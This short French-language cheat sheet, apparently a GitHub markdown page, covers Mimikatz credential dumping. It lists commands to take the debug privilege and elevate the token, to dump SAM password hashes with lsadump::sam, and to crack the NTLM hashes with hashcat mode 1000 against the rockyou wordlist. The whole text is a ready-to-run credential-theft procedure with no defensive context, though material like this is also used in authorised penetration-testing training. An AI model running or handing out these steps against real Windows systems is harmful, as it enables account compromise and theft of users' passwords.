 ## Mimikatz

Toujours executer ses commandes avant toutes action avec mimikatz

```sh
privilage::debug
token::elevate
```

Vider les hash 

```sh
lsadump::sam
lsadump::sam /path
```

Déchiffrez ces hachages avec hashcat

```
hashcat -m 1000 <hash> rockyou.txt
```
